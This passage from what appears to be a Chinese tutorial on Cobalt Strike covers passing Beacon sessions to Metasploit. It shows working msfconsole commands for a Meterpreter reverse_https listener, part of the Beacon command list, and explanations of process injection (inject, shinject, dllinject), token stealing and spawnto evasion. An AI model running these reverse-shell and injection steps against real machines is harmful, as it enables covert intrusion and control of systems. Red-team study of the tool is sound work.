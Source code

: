 ```shell
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(handler) > set lhost 10.211.55.2
lhost => msf ip
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > exploit
```

然后在cs里配置，填上msf的ip和监听端口。

然后选择会话右键派生，会话选择forign beacon：

![image-20240227195131535](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402271951624.png)

随后在msf中就会接收到会话：

![image-20240227195228315](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402271952409.png)


            Start/Stop a SOCKS4a/SOCKS5 server to relay traffic
    spawn                     Spawn a session 
    spawnas                   Spawn a session as another user
    spawnto                   Set executable to spawn processes into
    spawnu                    Spawn a session under another process
    spunnel                   Spawn and tunnel an agent via rportfwd
    spunnel_local             Spawn and tunnel an agent via Cobalt Strike client rportfwd
    ssh                       Use SSH to spawn an SSH session on a host
    ssh-key                   Use SSH to spawn an SSH session on a host
    steal_token               Steal access token from a process
    syscall-method            Change or query the syscall method
    timestomp                 Apply timestamps from one file to another
    token-store               Hot-swappable access tokens
    unlink                    Disconnect from parent Beacon
    upload                    Upload a file
    windows_error_code        Show the Windows error code for a Windows error code number
```

### session传递

**会话传递相关命令**

Beacon 被设计的最初目的就是向其他的 CS 监听器传递会话。

- `spawn`：进行会话的传递，也可直接右击会话选择`spawn`命令进行会话的选择。默认情况下，`spawn`命令会在 rundll32.exe 中派生一个会话。为了更好的隐蔽性，可以找到更合适的程序（如 Internet Explorer） 并使用`spawnto`命令来说明在派生新会话时候会使用 Beacon 中的哪个程序。
- `spawnto`：该命令会要求指明架构（x86 还是 x64）和用于派生会话的程序的完整路径。单独输入`spawnto`命令然后按 enter 会指示 Beacon 恢复至其默认行为。
- `inject`：输入`inject + 进程 id + 监听器名`来把一个会话注入一个特定的进程中。使用 ps 命令来获取一个当前系统上的进程列表。使用`inject [pid] x64`来将一个64位 Beacon 注入到一个 64位进程中。
- `spawn`和`inject`命令都将一个 payload stage 注入进内存中。如果 payload stage 是 HTTP、HTTPS 或 DNS Beacon 并且它无法连接到你，那么将看不到一个会话。如果 payload stage 是一个绑定的 TCP 或 SMB 的 Beacon，这些命令会自动地尝试连接到并控制这些 payload。
- `dllinject`：`dllinject + [pid]`来将一个反射性 DLL 注入到一个进程中。
- `shinject`：使用`shinject [pid] [架构] [/路径/.../file.bin]`命令来从一个本地文件中注入 shellcode 到一个目标上的进程中。
- `shspawn`：使用`shspawn [架构] [/路径/.../file.bin]`命令会先派生一个新进程（这个新进程是 spawn to 命令指定的可执行文件），然后把指定的 shellcode 文件（ file.bin ）注入到这个进程中。
- `dllload`：使用`dllload [pid] [c:\路径\...\file.dll]`来在另一个进程中加载磁盘上的 DLL文件。

**会话传递使用场景**

1、将当前会话传递至其他CS团队服务器中，直接右击`spawn`选择要传递的监听器即可。

2、将当前会话传递至MSF中，这里简单做一下演示。

首先，在MSF中，为攻击载荷新建一个payload
```